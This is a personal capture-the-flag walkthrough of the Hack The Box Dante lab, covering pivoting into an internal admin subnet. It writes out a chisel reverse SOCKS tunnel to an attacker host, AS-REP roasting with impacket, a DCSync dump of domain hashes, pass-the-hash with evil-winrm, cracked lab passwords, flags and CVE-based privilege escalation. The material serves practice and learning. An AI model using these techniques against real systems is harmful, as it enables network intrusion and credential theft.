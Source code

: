 # Admin Subnet:

# Host 172.16.2.5:

I cannot figure out why I am unable to access the internal admin subnet using sshuttle. My command currently is:
```
proxychains sshuttle --dns -vr katwamba@172.16.1.20 172.16.2.0/24 --ssh-cmd "ssh -i /home/cl3al/Documents/priv_keys/id_rsa"
```

It fails stating that the path I specified for the key is not in the paths it seems to look for by default. Not sure why it does this.

SSH tunneling and SShuttle are used when SSH is available. Chisel is good for Windows and creates a tunnel from scratch where SSH may not be available. In order for me to finally be able to get an .exe file for chisel on Windows, I had to build it first with Go using the following command while in the "opt/chisel" directory:
```
GOOS=windows GOARCH=amd64 go build -ldflags="-s -w" .
```
Then:
```
#Run command on attacker machine (10.10.16.101)
./chisel server -p 8001 --reverse

#Run command on Win DC01 machine (172.16.1.20) after transferring the built chisel.exe file.
./chisel .exe client 10.10.16.101:8001 R:389:socks


```

Finally, I needed to add the new reverse proxy and the new open port to the etc/proxychains4.conf file. I figured out that the port the needed to be set in proxychains (below) and use for the remote connection above from the victim needed to be an open port. From there, I was then even able to run nmap locally on my kali machine by disabling the first proxy (commenting it out) and running **_proxychains_** before the command.:
![[./_resources/HTB_Pro_Lab_Dante.resources/image.53.png]]
**_Reference: <https://ap3x.github.io/posts/pivoting-with-chisel/>_**

**_SOMETIMES, YOU MAY NEED TO TRY DIFFERENT FORWARDED PORT UNTIL IT WORKS. 389 GAME ME ISSUES AND I HAD TO TRY 3333_**

Next, I need to conduct AS\_REP Roasting using Rubeus.exe locally on DC01 (suggested unfortunately by a discord member providing me with more help than requested). I can use an impacket tool called **_GetNPUsers_** to accomplish this and get the ticket granting ticket (TGT) using a username.:
```
proxychains impacket-GetNPUsers dante/asmith -dc-ip=172.16.2.5

and then I need to enter local password to continue when prompted.
However, I will use the following command to automate this from a file with all usernames.:

proxychains impacket-GetNPUsers dante/-no-pass -usersfile /home/cl3al/Desktop/userfile.txt -dc-ip=172.16.2.5
```

![[./_resources/HTB_Pro_Lab_Dante.resources/image.52.png]]
Nmap scan done locally as well:
![[./_resources/HTB_Pro_Lab_Dante.resources/image.54.png]]

After conducting an AS\_REP ROAST attack, I found the following TGT which can now be cracked with john!!:
```
$krb5asrep$23$jbercov@DANTE:2107e3f6021fb427d8109ae16152bd52$405302c64d77f77ae979ced680333f26c29d75bce5ec750220436dbb8648dd556236080d8b9b67e9334f5b9738ffaa70c566e0a54a1ca755ddb004a64492f7f87661473300a495f8cdf8e6466fbbf9f2521fe0f543026fbdbf27ab301d228f75c8189919b550a427988de7d3d8f135c6bef7115d62d75159fce25a8d31205b76771c52e37eac9ef7feff6af8c54259d9bcbe42fe0df9d826e09f28aa4805686f93ab96f029ae2df8a4c848a3c76978cd8fa79d9865e40f9627d10131774ee705f0f6ac8860f24c5132d0dea0a92cfec8dfb979c7afcbe7da983c83803db86a96bfd3e861
```

After using john to crack the above hash, I found the password for jbercov@dante:
```
username: dante\jbercov
password: myspace7
```

![[./_resources/HTB_Pro_Lab_Dante.resources/image.55.png]]

Next, I ran bloodhound-python to gather all information for Active Directory and the zip file is stored in my root directory. The command I used once again was.:
```
proxychains bloodhound-python -d dante.admin -v --zip -c All -u jbercov -p myspace7 -ns 172.16.2.5 --dns-tcp
```

I now need to investigate this in Bloodhound to see what I can find next. In checking, bloodhound, I see that DCsync is available for me to use for jbercov to domain admin as shown below.:

![[./_resources/HTB_Pro_Lab_Dante.resources/image.57.png]]
In searching for "dcsync" in msfconsole, I came across and used the following module which retrieved hashes.:
![[./_resources/HTB_Pro_Lab_Dante.resources/image.56.png]]

Raw Data:
```
[*] Running for 172.16.2.5...
[-] 172.16.2.5 - RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] 172.16.2.5 - Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] 172.16.2.5 - Using the DRSUAPI method to get NTDS.DIT secrets
[+] Administrator:500:aad3b435b51404eeaad3b435b51404ee:4c827b7074e99eefd49d05872185f7f8:::
[+] Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[+] krbtgt:502:aad3b435b51404eeaad3b435b51404ee:2e5f00bc433acee0ae72f622450bd63c:::
[+] DANTE.ADMIN\jbercov:1106:aad3b435b51404eeaad3b435b51404ee:2747def689b576780fe2339fd596688c:::
[+] DANTE-DC02$:1000:aad3b435b51404eeaad3b435b51404ee:ca139ee53927fb001c71aa2046260b45:::
[*] 172.16.2.5 - Kerberos keys grabbed
[+] Administrator:aes256-cts-hmac-sha1-96:0652a9eb0b8463a8ca287fc5d099076fbbd5f1d4bc0b94466ccbcc5c4a186095
[+] Administrator:aes128-cts-hmac-sha1-96:08f140624c46af979044dde5fff44cfd
[+] Administrator:des-cbc-md5:8ac752cea84f4a10
[+] krbtgt:aes256-cts-hmac-sha1-96:a696318416d7e5d58b1b5763f1a9b7f2aa23ca743ac3b16990e5069426d4bc46
[+] krbtgt:aes128-cts-hmac-sha1-96:783ecc93806090e2b21d88160905dc36
[+] krbtgt:des-cbc-md5:dcbff8a80b5b343e
[+] DANTE.ADMIN\jbercov:aes256-cts-hmac-sha1-96:5b4b2e67112ac898f13fc8b686c07a43655c5b88c9ba7e5b48b1383bc5b3a3b6
[+] DANTE.ADMIN\jbercov:aes128-cts-hmac-sha1-96:489ca03ed99b1cb73e7a28c242328d0d
[+] DANTE.ADMIN\jbercov:des-cbc-md5:c7e08938cb7f929d
[+] DANTE-DC02$:aes256-cts-hmac-sha1-96:7a7d7c0cc314fc7604749672d6e9d5feb709d765ac6e9985fffb5aaa223c5e15
[+] DANTE-DC02$:aes128-cts-hmac-sha1-96:8036c96874a8d29a122ea35c408cf660
[+] DANTE-DC02$:des-cbc-md5:a25d94f1df0b195e
```

Using evil-winrm, I was able to establish a connection to Jacob's account and found the next flag in the Desktop directory.:
```
proxychains evil-winrm -i 172.16.2.5 -u jbercov -H 2747def689b576780fe2339fd596688c  <----nthash (right one or last one from the above list)
```

I downloaded the flag.txt file as shown here.:
![[./_resources/HTB_Pro_Lab_Dante.resources/image.58.png]]
flag:
![[./_resources/HTB_Pro_Lab_Dante.resources/image.59.png]]

```
DANTE{Im_too_hot_Im_K3rb3r045TinG!}
```

I then quickly found the second flag.:
![[./_resources/HTB_Pro_Lab_Dante.resources/image.60.png]]

```
DANTE{DC_or_Marvel?}
```

I also found a note.txt file which contained the following tip regarding the previous discovery of the internal admin subnet.:
![[./_resources/HTB_Pro_Lab_Dante.resources/image.61.png]]
Lastly, I inspected the Jenkins.bat file in the Documents directory for the Administrator which revealed the following.:
![[./_resources/HTB_Pro_Lab_Dante.resources/image.62.png]]
Raw data:
```
Admin_129834765
SamsungOctober102030
```

**Host 172.16.2.101:**
![[./_resources/HTB_Pro_Lab_Dante.resources/image.93.png]]
I missed this before but in running more nmap scans, this system stands out among all other failed hosts. This is nix05 a Linux machine. Here are some more details.:
![[./_resources/HTB_Pro_Lab_Dante.resources/image.94.png]]![[./_resources/HTB_Pro_Lab_Dante.resources/image.95.png]]
\*\*\*I need to use katwamba's id\_rsa key to access the .20 DC. Then, change katwamab's password and access the machine via rdp to setup chisel and add the socks port to etc/proxychains4.conf. From there, I can continue investigating .2.101 (this nix05) machine. Comment out 9999 and uncomment 389 socks ports.\*\*\*

It seems that the only port that appears to be open is SSH as shown below.:
![[./_resources/HTB_Pro_Lab_Dante.resources/image.96.png]]

```
PORT  STATE SERVICE VERSION
22/tcp open  ssh    OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|  3072 20d08e88eedbb4cf35b7dbcb74a0500b (RSA)
|  256 db33b77b64704612290236b3c5cf963d (ECDSA)
|_  256 66bb0d63a81e4c24fe2c7e9e3a0300e6 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.00 seconds
```

So after getting a nude from discord, the way to access this machine is with a user and password from [172.16.1.12](http://172.16.1.12) that I saw but totally did not think much of it. The information is:
```
uname: julian
password hash: julian:$1$CrackMe$U93HdchOpEUP9iUxGVIvq/:18439:0:99999:7:::
cracked hash: manchesterunited
```

The combined unshadowed file is on the Desktop as: **_results.1.12.txt_** and just needs to be cracked with john which can take some time.

![[./_resources/HTB_Pro_Lab_Dante.resources/image.97.png]]

Vulnerable to CVE-2021-4034

Vulnerable to CVE-2021-3560

Using the first CVE once again to quickly escalate privileges, I obtained the root flag. However, I have yet to find the user flag here. Also, I saved the passwd and shadow file information to my Desktop as **_shadow.2.101.txt_** and **_passwd.2.101.txt_** respectively. I can use the unshadow command to combine both for john to then crack. Check the history for the correct command.

![[./_resources/HTB_Pro_Lab_Dante.resources/image.98.png]]
Apparently, I unintendedly escalated privs NOT through the BoF lol. I will wanna redo this so I can learn this one. Check John Hammond's video on it and also check out: <https://valsamaras.medium.com/introduction-to-x64-linux-binary-exploitation-part-1-14ad4a27aeef> for resources. Apart from that, this is the only flag on the machine apparently and the sql01 credentials are NOT here which is another conundrum. I will need to figure that out somehow.

I was able to transfer linpeas and use the following commands to perform a network enumeration scan which now allowed me to discover the [172.16.2.6](http://172.16.2.6) machine. :
```
chmod +x linpeas.sh
./linpeas.sh -d 172.16.2.0/24
```
